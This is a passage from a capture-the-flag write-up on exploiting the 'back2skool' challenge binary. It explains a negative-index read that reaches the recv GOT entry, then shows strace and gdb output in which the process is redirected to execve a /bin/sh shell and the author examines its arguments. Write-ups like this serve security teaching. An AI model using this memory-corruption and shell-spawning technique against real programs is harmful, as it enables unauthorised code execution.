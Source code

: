 Reading from `-32` it's equivalent of reading `-32*4` bytes before our
buffer. `0x804c040-32*4` is `0x804bfc0`, this is the `recv` GOT entry.
`-1218309888` is `-1217696784-613104`.

Hey, it didn't crashed, that's a plus! Meanwhile, back at the castle.

``` bash
$ strace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
[...]
[pid  4901] send(4, "Value at position -2147483634: -"..., 43, 0) = 43
[pid  4901] read(4, "m", 1)             = 1
[pid  4901] read(4, "a", 1)             = 1
[pid  4901] read(4, "t", 1)             = 1
[pid  4901] read(4, "h", 1)             = 1
[pid  4901] read(4, "\r", 1)            = 1
[pid  4901] read(4, "\n", 1)            = 1
[...]
[pid  4902] execve("/bin/sh", ["sh", "-c", ""], [/* 31 vars */]) = 0
[pid  4902] brk(0)                      = 0x9a04000
[...]
```

We successfully **called `execve`**!

## Parameters to execve

We are able to run `execve` but we don't control the parameters ... yet. Let's see with what parameters `execve` is called.

	$ gdb ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
	[...]
	Reading symbols from /root/back2skool-3fbcd46db37c50ad52675294f5667909d1f...(no debugging symbols found)...done.
	(gdb) set follow-fork-mode child 
	(gdb) catch syscall execve 
	Catchpoint 1 (syscall 'execve' [11])
	(gdb) r
	[...]
	Catchpoint 1 (call to syscall 'execve'), 0xb7fe2424 in __kernel_vsyscall ()
	(gdb) info registers 
	eax            0xffffffda	-38
	ecx            0xbffff3b4	-1073744972
	edx            0xbffff5ac	-1073744468
	ebx            0xb7fa5a5a	-1208329638
	[...]
	(gdb) x/s $ebx
	0xb7fa5a5a:	 "/bin/sh"
	(gdb) x/5x $ecx
	0xbffff3b4:	0xb7fa5a5f	0xb7fa5a57	0x0804c040	0x00000000
	0xbffff3c4:	0xb7ead180
	(gdb) x/s ((char **)$ecx)[0]
	0xb7fa5a5f:	 "sh"
	(gdb) x/s ((char **)$ecx)[1]
	0xb7fa5a57:	 "-c"
	(gdb) x/s ((char **)$ecx)[2]
	0x804c040 <values>:	 ""
	(gdb) 


[original binary]: res/back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f "Vulnerable binary"
[Ghost in the Shellcode]: http://ghostintheshellcode.com/ "Ghost in the Shellcode CTF"